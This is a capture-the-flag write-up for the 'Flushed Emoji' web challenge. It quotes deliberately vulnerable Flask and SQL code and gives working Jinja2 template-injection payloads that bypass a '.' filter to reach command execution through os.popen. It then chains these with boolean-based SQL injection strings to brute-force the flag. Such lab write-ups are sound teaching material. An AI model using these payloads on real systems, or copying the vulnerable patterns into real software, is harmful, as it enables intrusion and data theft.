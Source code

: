 # Flushed Emoji

```
score: 198      
solved: 49/xxx      
difficulty: medium      
tags: web, ssti, sqli       
```

## Problem

Flushed emojis are so cool! Learn more about them here!

![FlushedEmojis.zip](./FlushedEmojis.zip)

## Read source code
Have 2 sources code
1. main-server
- Have only endpoint(/login) 

```py
    if('.' in password):
      return render_template_string("lmao no way you have . in your password LOL");

    r = requests.post('[Other server IP]', json={"username": alphanumericalOnly(username),
    "password": alphanumericalOnly(password)}); 
    if(r.text == "True"):
      return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss.");
    return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");
```
- templates/login.html


```html
    {% if error %}
        <p class="error"><strong>Error:</strong> {{ error }}
    {% endif %}
```
Username and password are sent to another server and are filted by alphanumericalOnly But can see they use render_template_string. Can a SSTI -> Flask use Jinja2 -> Send password '7'*7 and response is 7777777 -> bypass filter '.' 


2. data-server

```py
app.route('/runquery', methods=['POST'])
def runquery():
  request_data = request.get_json()
  username = request_data["username"];
  password = request_data["password"];

  print(password);
  
  cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");

  rows = cur.fetchall()
  if(len(rows) > 0):
    return "True";
  return "False";
```
-  In the endpoint /runquery has the function of login through method post but It exists a boolean-base sqli.
- data=flag' or password like '%' -- -     => True
- data=flag' or password like 'A%' -- -    => False

## Exploit 
1. Flow
SSTI -> RCE  -> Request data-server -> boolean-base sqli. 

2. SSTI     
### Bypass filter
[Read link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#user-content-jinja2---filter-bypass)

I use config|attr('items')() --> Pass

### SSTI to RCE 
{{ (config|attr('from_object'))('os') }}
{{((config|attr('__class__')|attr('__init__')|attr('__globals__'))['os']|attr('popen'))('whoami')|attr('read')()}} -> user

3. RCE to SQLI
### Run a command python
```py
import requests; 
print(requests.post("http://172.24.0.8:8080/runquery", headers={"Content-Type": "application/json"}, data=bytes.fromhex("{Hexdata}").decode("utf-8")).text)
```
For bypass fil;ter '.' use \x2e and ' = \x27, " = \x22

### Run sqli 
flag' and password like 'char%' ESCAPE '@' -- - -> encode hex
Use ESCAPE '@' for char '_' not is a Wildcard (like sql) [readmore](https://stackoverflow.com/questions/5139770/escape-character-in-sql-server#answer-14518639)

Result is True or False.

If result char sqli is '_', not sure if it's correct [readmore](https://www.w3schools.com/mysql/mysql_wildcards.asp)


### Payload is:
```py
query = "flag' and password like 'LITCTF%' ESCAPE '@' -- -"
query = json.dumps({"username": query, "password": "b"}).encode().hex()
query = '''{{((config|attr('__class__')|attr('__init__')|attr('__globals__'))['os']|attr('popen'))('python3 -c \\x27import requests; print(requests\\x2epost(\\x22http://172\\x2e24\\x2e0\\x2e8:8080/runquery\\x22, headers={\\x22Content-Type\\x22: \\x22application/json\\x22}, data=bytes\\x2efromhex(\\x22''' +query  + '''\\x22)\\x2edecode(\\x22utf-8\\x22))\\x2etext)\\x27')|attr('read')()}}'''
data= {"username":'a', "password": query}
```
## Brute Forces flag 

Full solving code at [Flushed_Emoji.py](./Flushed_Emoji.py)

We got the flag: `LITCTF{flush3d_3m0ji_o.0}`.
